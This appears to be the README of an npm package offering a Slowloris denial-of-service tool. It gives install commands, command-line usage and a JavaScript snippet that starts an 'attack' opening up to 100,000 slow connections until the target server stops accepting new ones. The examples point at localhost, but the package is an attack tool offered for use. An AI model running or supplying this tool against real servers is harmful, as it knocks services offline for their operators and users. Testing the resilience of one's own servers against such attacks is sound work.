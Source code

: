 
### `Intro`
![GitHub Actions status | publish](https://github.com/anzerr/slowloris.tool/workflows/publish/badge.svg)

Example of slowloris attack it should start with a few connections and try and ramp up until I can't connected anymore

#### `Install`
``` bash
npm install --save git+https://github.com/anzerr/slowloris.tool.git
npm install --save @anzerr/slowloris.tool
```

``` bash
git clone git+https://git@github.com/anzerr/slowloris.tool.git &&
cd slowloris.tool &&
npm link
```

### `Example`
``` bash
slowloris --host localhost:8080 --max 50000
slowloris --host https://localhost:8080
```

``` javascript
const Loris = require('slowloris.tool');
let l = new Loris('http://localhost:8080', 100000).attack();
return new Promise((resolve) => l.once('end', resolve)).then(() => {
	console.log('attack ended');
}).catch(console.log);
```